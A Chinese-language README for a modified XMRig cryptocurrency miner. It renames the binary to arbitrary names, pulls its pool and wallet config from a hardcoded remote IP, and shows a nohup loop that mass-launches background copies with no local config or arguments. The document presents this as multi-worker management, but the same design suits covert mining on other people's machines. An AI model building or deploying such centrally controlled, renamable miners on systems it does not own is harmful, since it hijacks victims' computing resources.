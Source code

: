 # XMRig 动态程序名配置功能

## 🎯 功能说明

程序现在可以**根据自身的可执行文件名**自动从服务器获取对应的配置文件。

### 核心特性

✅ **智能识别** - 自动识别程序文件名  
✅ **动态配置** - 根据文件名构建配置URL  
✅ **自动去除扩展名** - 支持.exe、.bin等各种扩展名  
✅ **默认回退** - xmrig默认使用666配置  

## 📐 配置规则

### URL生成规则
```
程序名 → http://182.92.97.16:8181/configs/{程序名}+cpu.json
```

### 具体示例

| 程序文件名 | 获取的配置URL |
|-----------|--------------|
| `666.exe` | `http://182.92.97.16:8181/configs/666+cpu.json` |
| `test.exe` | `http://182.92.97.16:8181/configs/test+cpu.json` |
| `worker1` | `http://182.92.97.16:8181/configs/worker1+cpu.json` |
| `myworker.bin` | `http://182.92.97.16:8181/configs/myworker+cpu.json` |
| `xmrig` | `http://182.92.97.16:8181/configs/666+cpu.json` (默认) |
| `xmrig.exe` | `http://182.92.97.16:8181/configs/666+cpu.json` (默认) |

## 🚀 使用方法

### 1. 重命名程序
```bash
# Linux/Mac
mv xmrig 666
mv xmrig test
mv xmrig worker1

# Windows
ren xmrig.exe 666.exe
ren xmrig.exe test.exe
ren xmrig.exe worker1.exe
```

### 2. 直接运行
```bash
# 运行666 → 自动获取666+cpu.json
./666

# 运行test → 自动获取test+cpu.json
./test

# 运行worker1 → 自动获取worker1+cpu.json
./worker1
```

## 📊 测试验证

### 测试结果
```bash
# 测试1: 程序名为666
./666 --dry-run
→ Using web configuration URL based on executable name '666': 
  http://182.92.97.16:8181/configs/666+cpu.json

# 测试2: 程序名为test
./test --dry-run
→ Using web configuration URL based on executable name 'test': 
  http://182.92.97.16:8181/configs/test+cpu.json

# 测试3: 程序名为myworker.exe
./myworker.exe --dry-run
→ Using web configuration URL based on executable name 'myworker': 
  http://182.92.97.16:8181/configs/myworker+cpu.json
```

## 🔧 技术实现

### 代码位置
`src/core/config/Config.cpp` - `loadWebConfig()` 方法

### 实现逻辑
1. 获取程序完整路径 (`Process::exepath()`)
2. 提取文件名（去除路径）
3. 移除扩展名（.exe, .bin等）
4. 如果是xmrig，使用666作为默认
5. 构建配置URL：`http://182.92.97.16:8181/configs/{name}+cpu.json`

### 关键代码
```cpp
// 获取程序的完整路径
String execPath = Process::exepath();
std::string fullPath(execPath.data());

// 提取文件名（不含路径）
std::string execName = fullPath;
size_t lastSlash = fullPath.find_last_of("/\\");
if (lastSlash != std::string::npos) {
    execName = fullPath.substr(lastSlash + 1);
}

// 移除扩展名
size_t lastDot = execName.find_last_of(".");
if (lastDot != std::string::npos) {
    execName = execName.substr(0, lastDot);
}

// 构建配置URL
m_webConfigUrl = "http://182.92.97.16:8181/configs/" + execName + "+cpu.json";
```

## 💡 应用场景

### 1. 多矿工管理
```bash
# 不同的矿工使用不同的配置
cp xmrig worker1  # 矿工1
cp xmrig worker2  # 矿工2
cp xmrig worker3  # 矿工3

# 每个矿工自动获取自己的配置
./worker1  # 获取worker1+cpu.json
./worker2  # 获取worker2+cpu.json
./worker3  # 获取worker3+cpu.json
```

### 2. 测试环境
```bash
# 测试配置
cp xmrig test
./test  # 获取test+cpu.json

# 生产配置
cp xmrig production
./production  # 获取production+cpu.json
```

### 3. 批量部署
```bash
# 批量部署脚本
for i in {1..10}; do
    cp xmrig "worker$i"
    nohup "./worker$i" > "worker$i.log" 2>&1 &
done
```

## 📝 服务器端配置

在服务器上为每个程序名准备对应的JSON配置文件：

```
http://182.92.97.16:8181/configs/
├── 666+cpu.json        # 默认配置
├── test+cpu.json       # 测试配置
├── worker1+cpu.json    # 矿工1配置
├── worker2+cpu.json    # 矿工2配置
└── production+cpu.json # 生产配置
```

每个配置文件可以有不同的：
- 矿池地址
- 钱包地址
- CPU使用率
- 监控参数
- 其他设置

## ✅ 优势

1. **灵活管理** - 一个程序，多种配置
2. **集中控制** - 服务器端统一管理所有配置
3. **快速切换** - 只需重命名程序即可切换配置
4. **批量部署** - 适合大规模部署场景
5. **零配置** - 无需本地配置文件

## 🎯 总结

现在XMRig可以：
- **根据程序名自动选择配置**
- **无需任何本地配置文件**
- **无需任何命令行参数**
- **支持批量部署不同配置**

只需：
1. 重命名程序为想要的名字
2. 运行程序
3. 自动获取对应配置并开始工作